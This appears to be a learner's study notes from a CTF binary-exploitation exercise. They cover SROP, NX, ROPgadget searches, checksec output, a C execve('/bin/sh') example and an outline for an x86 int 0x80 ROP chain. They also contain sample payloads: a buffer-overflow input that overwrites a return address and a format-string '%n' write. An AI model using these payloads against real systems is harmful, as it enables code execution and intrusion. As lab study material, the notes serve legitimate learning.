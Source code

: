 # Lesson
- Sigreturn-oriented programming (SROP)  
  https://en.wikipedia.org/wiki/Sigreturn-oriented_programming  
- NX bit  
  whether shellcode is effective or not  
  https://d2v.hatenablog.com/entry/2021/06/24/003258  
  ```json
    {
      ...
      "nx": "no",
      ...
    }
  ```
  - Sigreturn-oriented programming (SROP)  
    - Stack hopping exploits   
    If mechanisms such as data execution prevention are employed, it won't be possible for the attacker to just place a shellcode on the stack and cause the machine to execute it by overwriting the return address. With such protections in place, the machine won't execute any code present in memory areas marked as writable and non-executable. Therefore, the attacker will need to reuse code already present in memory.

- `ROPgadget`  
  `ROPgadget` is installed with pwntools.
  ```zsh
  # use python3 with pwntools
  $ ROPgadget --binary ./vuln --re "pop ebx"
  ```
- how to input bytes value on stdin
  ```zsh
  (python -c "print 'a' * 76 + '\xe6\x85\x04\x08';") | ./vuln
  ```
  or
  ```zsh
  $ echo -e '\xdd\xcc\xbb\xaa%46c%6$n' | ./q4
  ```
  - how can I input bytes value during `pwndbg`  
    This does not work well.
    ```
    n << (python -c "print '\x90\x90'")
    n << (echo -e '\x90\x90')
    ```
- `execve`  
  https://en.wikipedia.org/wiki/Exec_(system_call)  
  https://wiki.mma.club.uec.ac.jp/ytoku/Slides/Pwn%E5%8B%89%E5%BC%B7%E4%BC%9A  
  https://manpages.ubuntu.com/manpages/focal/ja/man2/execve.2.html  
  - how to know the usage of `execve` on a machine code level
    1. qwrite simple c programe that use the system call - for instance `execve`  
        ```c
        #include <stdio.h>
        #include <unistd.h>

        int main() {
            // Specify the file name and arguments
            char *args[] = { "/bin/sh", "-l", NULL };

            // Specify environment variables
            char *envp[] = { NULL };

            // Call the execve system call and start a new process
            execve(args[0], args, envp);

            // This line will not be executed if the execve system call succeeds
            perror("execve failed");
            return 1;
        }
        ```
    2. compile it  
        When you exploit 32bit-OS, compile it on 32bit-OS.  
        When you exploit 64bit-OS, compile it on 64bit-OS. 
        ```zsh
        (32/64-OS)$ gcc test.c -o test.0
        ```
    3. debug it with `gdb` and check it  

# Quetions
- how to choose an arbitrary access
- why "/bin//sh", not "/bin/sh"
- `sysenter` vs. `int 80`

# Memo
1. check
    ```zsh
    $ file ./vuln
    ./vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
    $ checksec --file=./vuln --output=json | jq .
    {
      "./vuln": {
        "relro": "partial",
        "canary": "no",
        "nx": "no",
        "pie": "no",
        "rpath": "n/a",
        "runpath": "n/a",
        "symbols": "yes",
        "fortify_source": "no",
        "fortified": "0",
        "fortify-able": "0"
      }
    }
    ```

2. `ghidra` and `gdb`  
get break point address  

3. write exploit  
- create ROP chain  
  - manual  
    x86  
    int 0x80  
    eax = 11  
    args: ebx, ecx, edx, esi, edi, ebp  

    ebx = (arbitrary address) -> /bin/sh  
    ecx = 0  
    edx = 0  

    ```
    $ ROPgadget --binary ./vuln --re "mov dword ptr" | grep ret
    ```
  - rely on `pwntools`  
    solver2.py  


# Ref  
- https://qiita.com/housu_jp/items/2be2b8147f35a4d6a6ce  